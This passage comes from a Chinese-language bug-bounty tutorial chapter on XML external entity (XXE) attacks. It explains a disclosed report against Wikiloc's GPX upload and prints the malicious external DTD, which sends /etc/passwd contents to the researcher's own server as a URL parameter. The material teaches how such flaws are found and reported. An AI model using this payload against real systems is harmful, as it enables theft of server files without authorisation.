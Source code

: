 ```xml
(...)
```

这看起来十分熟悉。这里他使用了两个实体，它们都在 DTD 中求值，所以它们使用`%`定义。`&send;`在`<name>`标签中的的引用实际上由返回的`xxe.dtd`文件定义，他的服务器将其发送回 Wikiloc。这里是这个文件：


```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!ENTITY % all "<!ENTITY send SYSTEM 'http://www.davidsopas.com/XXE?%file;'>"> 
%all;

```

要注意`%all;`实际上定义了`!ENTITY send`，我们刚刚在`<name>`标签中注意到它。这里是求值的过程：

1.  Wikiloc 解析了 XML，并将`%dtd;`求值为 David 的服务器的外部调用。
2.  David 的服务器向 Wikiloc 返回了`xxe.dtd`文件。
3.  Wikiloc 解析了收到的 DTD文件，它触发了`%all;`的调用。
4.  当`%all;`求值时，它定义了`&send;`，它包含`%file;`实体的调用。
5.  `%file;`在 URL 值中被替换为`/etc/passwd`文件的内容。
6.  Wikiloc 解析了 XML 文件，发现了`&send;`实体，它求值为 David 服务器的远程调用，带有`/etc/passwd`的内容，作为 URL 中的参数。

用他自己的话来说，游戏结束了。

> 重要结论

> 像之前提到的那样，这是一个不错的例子，展示了如何使用来自站点的 XML 模板，来组装你自己的 XML 实体，便于让目标合理地解析文件。这里，Wikiloc 期待`.gpx`文件，而 David 保留了该结构，在预期标签中插入了他自己的 XML 实体，也就是`<name>`标签。此外，观察如何处理恶意 DTD 文件很有意思，并且可以用于随后让目标向你的 服务器发送 GET 请求，带有文件内容作为 URL 参数。

## 总结

XXE 表示一类有巨大潜力的有趣的攻击向量。有几种方式来完成，就像我们之前看到的那样，它能够让漏洞应用打印自己的`/etc/passwd`文件，以`/etc/passwd`文件来调用远程服务器，以及请求远程 DTD 文件，它让解析器来使用`/etc/passwd`文件调用服务器。

作为一个黑客，要留意文件上传，特别是那些接受一些 XML 类型的上传，应该始终测试它们是否存在 XXE 漏洞。
